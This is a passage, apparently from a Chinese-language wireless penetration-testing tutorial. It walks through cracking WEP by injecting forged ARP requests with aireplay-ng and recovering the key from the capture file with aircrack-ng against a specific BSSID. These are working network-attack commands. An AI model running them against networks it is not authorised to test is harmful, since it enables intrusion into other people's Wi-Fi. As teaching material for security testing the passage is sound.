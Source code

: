 ```
aireplay-ng --interactive -r arp-request mon0

```

在下面的屏幕截图中，我们可以注意到正在注入的 ARP 请求的详细信息：

![伪造和注入 ARP 请求帧](img/B04527_04_12.jpg)

`--interactive`选项允许我们注入我们选择的帧，使用`-r`选项指定。

我们切换回`airodump-ng`终端，应该观察到捕获的帧数（#Data）在增加：

当我们有足够数量的帧时，我们可以开始使用`aircrack-ng`来处理生成的`pcap`文件并恢复密钥：

```
aircrack-ng -b 08:7A:4C:83:0C:E0 wep_crack-10.cap

```
